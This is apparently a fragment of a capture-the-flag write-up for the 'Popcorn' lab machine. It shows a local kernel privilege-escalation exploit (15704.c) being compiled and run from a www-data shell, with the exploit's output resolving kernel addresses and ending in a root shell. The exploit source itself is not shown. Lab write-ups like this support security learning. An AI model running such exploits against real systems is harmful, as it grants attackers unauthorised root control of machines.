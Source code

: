 ![](images/11.png)

Tranfer exploit `15704.c` to `Popcorn server`, compile and execute it, I have root.

```
www-data@popcorn:/var/www$ gcc 15704.c -o 15704
gcc 15704.c -o 15704
www-data@popcorn:/var/www$ chmod +x 15704
chmod +x 15704
www-data@popcorn:/var/www$ ./15704
./15704
[*] Resolving kernel addresses...
 [+] Resolved econet_ioctl to 0xf846a280
 [+] Resolved econet_ops to 0xf846a360
 [+] Resolved commit_creds to 0xc01645d0
 [+] Resolved prepare_kernel_cred to 0xc01647d0
[*] Calculating target...
[*] Failed to set Econet address.
[*] Triggering payload...
[*] Got root!
# whoami
whoami
root
# 
```